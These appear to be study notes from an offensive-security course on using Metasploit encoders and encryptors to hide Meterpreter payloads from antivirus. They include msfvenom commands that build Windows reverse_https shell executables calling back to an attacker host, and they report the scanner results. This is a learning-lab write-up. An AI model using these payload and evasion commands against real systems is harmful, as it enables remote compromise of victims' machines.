


## Encoders
Metasploit contains a number of _encoders_ that can encode the Meterpreter shellcode, subsequently obfuscating the assembly code.

We begin by running msfvenom with the --list encoders option:
```sh
msfvenom --list encoders
```
which gives us a list of all the available encoders.

The _x86/shikata_ga_nai_ encoder is a commonly-used polymorphic encoder that produces different output each time it is run, making it effective for signature evasion.

We'll enable this encoder with the -e option, supplying the name of the encoder as an argument, and we'll supply the other typical options as shown
```sh
sudo msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.49.150 LPORT=443 -e x86/shikata_ga_nai -f exe -o /var/www/html/met.exe
```

Since the assembly code has been obfuscated, we'll copy the generated executable to our Windows 10 victim machine and scan it with ClamAV
The result is that **ClamAV detected the encoded shellcode inside the executable.**

**WHY THO?**
 This failed because the encoded shellcode must be decoded to be able to run and this requires a decoding routine. This decoding routine itself is not encoded, meaning it is static each time, making the decoder itself a perfect target for signature detection.

 However, 64-bit applications are relatively newer, we can try encoding a 64-bit shell instead of a 32-bit one:

 ```sh
 sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.49.150 LPORT=443 -f exe -o /var/www/html/met64.exe
 ```
 
 The result is that **ClamAV could not detectethe encoded shellcode inside the executable**

 However, Avira is able to detect it.

 


 ## Encryptors
 The developers of Metasploit, launched updated options for encryption in 2018, which were designed to address the growing ineffectiveness of encoders for antivirus evasion.

 We start by getting a list of the encoders:
 ```sh
 msfvenom --list encrypt
 ```

 We will create an aes256 encrypted shellcode and use --encrypt-key for custom encryption key as follows:
 ```
 sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 --encrypt aes256 --encrypt-key fdgdgj93jf43uj983uf498f43 -f exe -o /var/www/html/met64_aes.exe
 ```

 

 However, this doesn't help our situation as our shellcode gets detected anyway.
 This again happens because, this feature is effective for antivirus evasion, but the decryption routine itself can still be detected since it is static.


 ## Conclusion
 Our analysis so far has revealed that encryption will not be effective for bypassing security solutions if the decoding or decryption techniques are static, since they will be analyzed and eventually signatures will be written for them.